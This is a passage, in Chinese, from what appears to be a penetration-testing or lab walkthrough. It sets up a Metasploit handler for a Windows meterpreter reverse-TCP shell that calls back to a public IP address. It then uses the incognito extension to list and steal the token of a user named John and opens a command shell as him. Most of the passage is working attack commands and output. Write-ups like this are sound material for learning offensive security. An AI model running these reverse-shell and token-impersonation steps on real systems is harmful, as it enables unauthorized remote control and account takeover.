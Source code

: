 ```
msfconsole
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set lhost 106.55.168.231
set lport 9999
exploit
```

![image-20250309215543675](../assets/image-20250309215543675.png)

上线

接着用incognito模块偷John的token

```cmd
meterpreter > use incognito
Loading extension incognito...Success.
meterpreter > list_tokens -u

Delegation Tokens Available
========================================
IIS APPPOOL\DefaultAppPool
NT AUTHORITY\LOCAL SERVICE
NT AUTHORITY\NETWORK SERVICE
NT AUTHORITY\SYSTEM
NT SERVICE\MsDtsServer130
NT SERVICE\MSSQLFDLauncher
NT SERVICE\MSSQLSERVER
NT SERVICE\MSSQLServerOLAPService
NT SERVICE\ReportServer
NT SERVICE\SQLTELEMETRY
NT SERVICE\SSASTELEMETRY
NT SERVICE\SSISTELEMETRY130
WIN-WEB\John
WIN-WEB\test
WIN-WEB\xrntkk
Window Manager\DWM-1
Window Manager\DWM-2
Window Manager\DWM-3
Window Manager\DWM-4

Impersonation Tokens Available
========================================
No tokens available
```

可以看到已经拿到John的token了

以John的身份运行cmd

```cmd
meterpreter > impersonate_token WIN-WEB\\John
[+] Delegation token available
[+] Successfully impersonated user WIN-WEB\John
meterpreter > shell
Process 7508 created.
Channel 1 created.
...

C:\Tmp>whoami
whoami
win-web\john
```
